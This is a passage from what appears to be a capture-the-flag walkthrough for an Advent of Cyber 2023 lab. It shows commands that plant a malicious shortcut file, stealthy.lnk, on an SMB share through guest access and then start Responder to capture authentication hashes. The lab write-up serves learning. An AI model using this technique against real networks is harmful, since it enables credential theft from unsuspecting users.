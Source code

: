    ![D23 Create File](Pictures/Advent_Of_Cyber_2023_D23_Create_File.png)

   Now we can transfer this file to the share using `smbclient`.

   ```cmd
   smbclient //10.10.114.211/ElfShare/ -U guest%
   put stealthy.lnk
   dir
   ```

   ![D23 Transfer File](Pictures/Advent_Of_Cyber_2023_D23_Transfer_File.png)

   Now we must start responder so it can listen for any received on our machine.

   ```cmd
   sudo responder -I tun0
   or
   responder -I ens5
   ```

   ![D23 Responder Start](Pictures/Advent_Of_Cyber_2023_D23_Responder_Start.png)
